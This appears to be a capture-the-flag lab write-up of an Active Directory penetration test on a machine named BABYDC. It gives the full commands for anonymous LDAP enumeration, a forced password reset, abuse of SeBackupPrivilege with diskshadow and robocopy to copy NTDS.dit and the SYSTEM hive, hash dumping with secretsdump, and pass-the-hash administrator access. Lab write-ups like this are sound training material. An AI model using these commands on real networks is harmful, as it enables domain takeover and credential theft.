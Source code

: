 This document provides a step-by-step walkthrough of an Active Directory penetration test on the target machine (BABYDC). The purpose was to enumerate and exploit weaknesses in the environment to gain administrative access.

Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.
    Nmap de la box :

Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


![i](Images/20241213023917.png)

A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:

![i](Images/20241213024456.png)

Anonymous LDAP bind returned useful information about domain users:

![i](Images/20241213024523.png)

LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:

nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  

![i](Images/20241213024833.png)

4.3 Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 

 
The password was reset to Password123 using:
smbpasswd -r 10.10.126.10 -U caroline.robinson 

Access was verified, and user privileges were checked using Netexec and the whoami /priv command:

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 

![i](Images/20241213061303.png)

The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

    Create a shadow copy:
raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:

```
download ntds.dit
download system
```

Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:

 nxc winrm 10.10.126.10 -u administrator -H <hash> -X "cat C:\Users\Administrator\Desktop\root.txt"
 
![i](Images/20241213062049.png)
